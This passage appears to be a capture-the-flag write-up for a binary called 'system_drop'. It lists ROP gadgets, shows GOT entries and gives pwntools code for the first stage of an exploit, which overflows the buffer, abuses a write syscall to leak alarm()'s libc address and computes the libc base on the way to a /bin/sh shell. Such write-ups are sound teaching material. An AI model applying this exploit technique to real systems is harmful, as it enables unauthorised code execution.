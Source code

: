```
0x00000000004005cf: pop rbp; pop r14; pop r15; ret;
0x00000000004004b8: pop rbp; ret;
0x00000000004005d3: pop rdi; ret;
0x00000000004005d1: pop rsi; pop r15; ret;
0x00000000004005cd: pop rsp; pop r13; pop r14; pop r15; ret;
```

After some initial testing, it became clear that the `mprotect`\>`read()` chain would be too large to fit in 256 bytes as it would require us to utilize a `__libc_csu_init()` chain to store data in the RDX and RCX registers. A different approach was required.

Upon closer examination of `main()`’s disassembly, the binary sets EAX to 1 right after `read()` is called. When `syscall` is called and RAX is 1, it calls the `write` syscall. This could be leveraged to call `write` and leak a libc address from the GOT.

The GOT itself only contained entries for `alarm()` and `read()`:

```
[0x601018] alarm@GLIBC_2.2.5 -> 0x7ffff7ac8840 (alarm) ◂— mov    eax, 0x25
[0x601020] read@GLIBC_2.2.5 -> 0x7ffff7af4070 (read) ◂— lea    rax, [rip + 0x2e0881]
```

With a libc leak, we can calculate libc’s base address and return to an `execve("/bin/sh")` gadget. While the binary didn’t come with an included `libc.so.6`, we did have one from the Controller challenge. I made the assumption that both binaries used the same version of libc and used it for the exploit. Here’s the first part of our exploit that leaks `alarm()` at libc’s address, and calculates libc’s base address:

```
from pwn import *

context(os="linux", arch="amd64")
elf = context.binary = ELF("./system_drop")

libc = ELF("./libc.so.6")

pop_rdi = 0x4005d3               # pop rdi
pop_rsi_chain = 0x4005d1         # pop rsi; pop r15; ret
syscall = 0x40053b               # syscall; ret

# Stage 1 : Leak a libc address
# After the binary calls read(), it sets eax=1 which we can use for a write() syscall to leak
# alarm()'s libc address
buf = b"A"*40
buf += p64(pop_rdi)
buf += p64(0x1)                 # stdout
buf += p64(pop_rsi_chain)
buf += p64(elf.got.alarm)       # alarm@got
buf += p64(0x0)
buf += p64(syscall)             # write() syscall which should give us the libc address we need

r.sendline(buf)
alarm_libc_leak = int.from_bytes(r.recv()[:6], "little")
print(f"alarm@libc: 0x{alarm_libc_leak:2x}")

libc.address = alarm_libc_leak - libc.sym.alarm
print(f"libc base: 0x{libc.address:2x}")
```
